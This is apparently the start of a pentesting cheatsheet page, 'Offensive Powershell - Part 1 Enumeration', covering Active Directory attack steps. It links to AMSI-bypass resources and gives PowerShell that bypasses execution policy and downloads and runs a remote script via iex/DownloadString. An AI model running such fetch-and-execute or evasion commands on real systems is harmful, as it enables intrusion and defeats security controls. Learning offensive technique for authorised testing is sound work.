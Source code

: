 ```yaml
---
layout: default
title: Offensive Powershell - Part 1 Enumeration  
parent: Pentesting
categories: Pentesting Windows
grand_parent: Cheatsheets
has_children: true
last-modified: 2021-11-17
---
```

# {{ page.title}}


* 1. [AV Evasion 101 by S3cur3Th1sSh1t](#AVEvasion101byS3cur3Th1sSh1t)
* 2. [PRE-REQUISITE: Installing PowerView](#PRE-REQUISITE:InstallingPowerView)
* 3. [PRE-REQUISITE: AD Web Services on the DC](#PRE-REQUISITE:ADWebServicesontheDC)
* 4. [ENUM: DOMAIN ADMIN](#ENUM:DOMAINADMIN)
* 5. [ENUM: PRIVILEGED USERS](#ENUM:PRIVILEGEDUSERS)
* 6. [ENUM: DOMAIN](#ENUM:DOMAIN)
* 7. [ENUM: DOMAIN PERSISTENCY](#ENUM:DOMAINPERSISTENCY)
* 8. [ENUM: FOREST PRIVESC](#ENUM:FORESTPRIVESC)
* 9. [ENUM: SERVICES LOOTS](#ENUM:SERVICESLOOTS)
* 10. [ENUM: Kerberoasting](#ENUM:Kerberoasting)
* 11. [MISC](#MISC)




##  1. <a name='AVEvasion101byS3cur3Th1sSh1t'></a>AV Evasion 101 by S3cur3Th1sSh1t

<iframe width="727" height="409" src="https://www.youtube.com/embed/_sPM9Er_194" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


##  2. <a name='PRE-REQUISITE:InstallingPowerView'></a>PRE-REQUISITE: Installing PowerView

- [PowerView CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf)
# Bypass AMSI 
- [amsi.fails]('https://amsi.fails')
- [S3cur3Th1sSh1t]('https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell')
- [notes.offsec-journey.com]('https://notes.offsec-journey.com/evasion/amsi-bypass')

```powershell
# Bypass powershell execution protection
powershell -ep bypass


# ActiveDirectory Module v1
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# ActiveDirectory Module v2
$webreq = [System.Net.WebRequest]::Create(‘https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1')
$resp=$webreq.GetResponse()
$respstream=$resp.GetResponseStream()
$reader=[System.IO.StreamReader]::new($respstream)
$content=$reader.ReadToEnd()
IEX($content)
```